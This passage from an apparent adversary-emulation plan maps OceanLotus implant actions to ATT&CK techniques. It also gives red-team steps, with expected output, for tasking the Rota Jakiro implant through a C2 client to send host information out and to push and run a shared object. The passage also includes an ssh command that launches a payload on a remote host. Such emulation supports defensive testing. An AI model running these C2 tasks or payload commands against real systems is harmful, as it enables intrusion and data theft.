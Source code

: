    | OSX.OceanLotus implant executes `ssh -i /Users/hpotter/.ssh/id_rsa -t hpotter@viserion.com@10.90.30.7 \"nohup /tmp/rota&; sleep 5; pkill rota\"` | [Execute command instruction `0xAC`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L240-L253)<br><br>[`executeCmd`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L8-L29)                    | T1021.004 Remote Services: SSH                                        | -                                                                                                                                                                                                                                                                                                          |
   | Rota execution establishes persistence                                                                                                           | [nonroot-persistence](https://github.com/center-for-threat-informed-defense/ocean-lotus/blob/Public-Release/Resources/rota/src/persistence.c#L96)                                                                  | T1547.013 - Boot or Logon Autostart Execuction: XDG Autostart Entries | https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/                                                                                                                                                                                                                                                |
   | Rota creates shared memory for process monitoring                                                                                                | [watchdog_process_shmget](https://github.com/center-for-threat-informed-defense/ocean-lotus/blob/Public-Release/Resources/rota/src/persistence.c#L394)                                                             | T1106 - Native API                                                    | https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/                                                                                                                                                                                                                                                |
   | Rota leverages shared memory for monitoring pids in ```/proc/```                                                                                 | [monitor_proc](https://github.com/center-for-threat-informed-defense/ocean-lotus/blob/Public-Release/Resources/rota/src/persistence.c#L340)                                                                        | T1559 - Inter-Processs Communication                                  | https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/                                                                                                                                                                                                                                                |


   </summary>
</details>

### 🔬 Blue Team Notes

None.

## Step 4 - Discovery on Linux Host

### 📖 Overview

**Step 4** emulates OceanLotus executing conducting discovery on the Linux host.

For initial collection, Rota Jakiro executes and collects the results from the `uname`
syscall. Rota Jakiro sends the following information regarding the Linux host to the C2
server: host name, architecture, and kernel version. Rota Jakiro then downloads and
executes a shared object (`mount.so`) to perform discovery for mounted drives connected
to the Linux host. The resulting information is saved to `mount.txt`. Rota Jakiro then
uploads this file to the C2 server for offline analysis.

---

### 👾 Red Team Procedures

1. Use Rota Jakiro to collect the device information from the target using the `uname`
   syscall.
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_upload_dev_info"}'
   ```
   Expected Output:
   ```
   [SUCCESS] 2023/08/24 19:38:08 Successfully set task for session: 01020304
   [INFO] 2023/08/24 19:38:10 New task received for UUID:  01020304
   [INFO] 2023/08/24 19:38:10 Sending new task to implant: 01020304
   [INFO] 2023/08/24 19:38:10 Received task output for session:  01020304
   [Task] 2023/08/24 19:38:10 drogon-Linux-5.15.0-1040-aws
   [SUCCESS] 2023/08/24 19:38:10 Successfully set task output.
   ```
2. Download `mount.so` shared object to execute the `mount` command to discover drives
   on the Linux host.
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_upload_file", "payload": "mount.so"}'
   ```
   Expected Output:
   ```
   [INFO] 2023/08/24 13:30:10 Received beacon from existing implant 01020304.
   [INFO] 2023/08/24 13:30:10 Received task output for session:  01020304
   [Task] 2023/08/24 13:30:10 successfully wrote entire file.
   [SUCCESS] 2023/08/24 13:30:10 Successfully set task output.
   ```
3. Verify the file upload successfully occurred.
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_query_file", "arg":"local_rota_file.so"}'
   ```
   Expected Output:
   ```
   [INFO] 2023/08/24 13:26:12 Received task output for session:  01020304
   [Task] 2023/08/24 13:26:12 file exists
   ```